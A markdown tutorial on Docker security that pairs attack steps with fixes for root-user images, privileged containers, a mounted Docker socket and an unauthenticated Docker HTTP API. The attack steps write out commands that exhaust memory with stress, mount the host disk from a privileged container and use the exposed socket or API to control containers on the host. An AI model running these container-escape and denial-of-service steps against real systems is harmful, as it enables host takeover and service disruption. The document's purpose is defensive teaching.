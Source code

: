 # Container Security

## Docker image with root user
   Do not create docker images with a root user as it gives full privilages to a user who has access to the docker container.
   
#### Attack
Example : We can run a DOS(Denial of service) attack once we have full access(root privilages) to the container.
1. Run a ubuntu docker container - `docker run --rm -it ubuntu sh` 
2. Run this command to see who is the user - `whoami`. This returns `root` as the user. This is bad.
3. Now you can install/run whatever you want as part of the container.
4. Lets install `apt-get update && apt-get install stress -y`
5. Stress is a tool by which you can generate huge load on a system
6. Run `stress --vm 2 --vm-bytes 2G --timeout 30` 
   ```
   –vm this flag helps us in creating workers for the job. More workers, more stress.
   –vm-bytes this flag is used to set the amount of memory.
   –timeout flag directs the stress tool to stop the job(s) after X seconds. Here it is 30 seconds.
   ```
   When this command is executed the docker container (VM as well) will become slow/unresponsive for 30 seconds. This means that any application running on the container will be unresponsive for long.
   
#### Prevention
1. Build images with a non root user
2. Create a file with name `Dockerfile` with the following content -
   ```
    ##########################################
   # Dockerfile to change from root to 
   # non-root privilege
   ###########################################
   # Base image is Ubuntu
   FROM ubuntu:latest
   # Add a new user "john" with user id 8877
   RUN useradd -u 8877 john
   # Change to non-root privilege
   USER john
   ```
 3. Run `docker build . -t ubuntu:test`. With this command, the we create a docker image - ubuntu:test
 4. Run the docker container - `docker run --rm -it ubuntu:test`. Here `whoami` will give `john`
 5. With this continer you cannot install any new libraries. Test with `apt-get intall stress` which gives `Permission denied` error
 6. You cannot be a root with such images which makes your containers secure

## Privileged Mode
   Do not run the containers in privilage mode. It gives full access to the host machine.

#### Attack
1. Run `docker run --privileged -it --rm ubuntu sh`
2. As the continer is running in privileged mode. It disables all the security measures.
3. Run command `mount` which gives all the mount points
4. Now you can mount any of these mounts from the host system
5. Run `mkdir /hostroot && mount /dev/vda1 hostroot`
6. This mount the host machines data to your container

#### Prevention
1. Avoid running the containers in privilage mode


## Socket Misconfigurations
Sometimes people just mount the docker socket inside the container. If an attacker gains access to this container, he literally has root access.

#### Attack
1. Mount socket `docker run -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu:latest sh`
2. Run `apt-get update ; apt-get install docker.io -y` to install docker client
3. `docker --version` to check if docker is running
4. `docker run -it --rm centos sh`
5. With this you can run containers in host machine
6. As we can its very dangerous to mount the docker socket inside any container. The centos container can do anything that the host system can do as root.


#### Prevention
1. Try to avoid docker socket. 

## Misconfig in Docker HTTP REST API
By default unix uses docker socket. You can expose it via HTTP as well. People do not care security of this HTTP REST API.

#### Attack
1. Expose docker via REST API
2. `sudo cp /lib/systemd/system/docker.service /etc/systemd/system/`
3. `sudo vi /etc/systemd/system/docker.service`
4. Add `-H tcp://0.0.0.0:2376` at the end of ExecStart
5. `sudo systemctl daemon-reload` reload new config
6. `sudo systemctl restart docker.service` restart docker
7. `curl http://localhost:2376/version` -> gives the docker version
8. `sudo apt-get install jq -y` this is a json formatter
9. `docker run --rm -it -d ubunut` run an ubuntu instance
10. `http://localhost:2376/containers/json | jq` gives list of containers(similar to `docker ps`)
11. Stop container `http://localhost:2376/containers/<container-name>/stop`
12. Here the API is unauthenticaed
13. API is Non-SSL

This gives attacer a clear access.

#### Prevention
1. Run an apache2 or nginx as a proxy
2. Configure SSL, Authentication in nginx/apache2




